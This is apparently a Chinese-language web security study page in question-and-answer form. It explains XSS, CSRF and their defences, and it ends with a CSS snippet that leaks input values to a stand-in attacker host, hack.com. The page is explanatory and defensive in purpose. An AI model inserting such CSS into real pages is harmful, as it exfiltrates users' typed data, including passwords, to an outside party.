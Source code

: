 ```yaml
---
title: Security Mind Map
description: 网络安全知识导图，包含 XSS、CSRF、CSS Exfiltration 等常见攻击手段的原理分析和防范措施。
---
```


## 浏览器

#### XSS 的原理是怎么样的？

XSS（Cross Site Scripting）跨站脚本攻击，通过某种方式将非法代码挂载在 URL、或者后端数据中，以达到让浏览器执行的目的。反射型 XSS 和储存型 XSS 都是利用后端返回的非法脚本直接在前端展示，就得到了执行。DOM-Based XSS 是通过修改源码内容来执行的。比如说，反射型 XSS 可能是一封黑客的邮件，链接参数带上了脚本代码；储存型 XSS 在可视化编辑器中很常见；DOM-Based XSS 可能是执行了一段 URL Hash 里面拿到的文本。

#### XSS 有哪些危害，怎么防范？

XSS 可以用来盗取 Cookie、DDos、篡改数据等。防范最基本要做的就是是后端不应该信任前端传来的数据，并且要做好过滤，把字符转义为 HTML 实体。其次是给 Cookie 设上 http-only。

#### CSRF 攻击原理是怎么样的？

CSRF（Cross Site Request Forgery）跨站请求伪造，主要原理是黑客利用了用户在敏感站点保持的登录态，在另一个用户访问的网页去伪造敏感站点的请求。

#### CSRF 怎么防范？

可以使用 CSRF token 方案。每次用户请求 HTML 都在其中设置一个随机的 Token，在请求时带上。

## 三剑客

#### CSS Exfiltration 攻击原理是什么？

```css
input[value^=a]{
  background-image: url(http://hack.com/a);
}
```

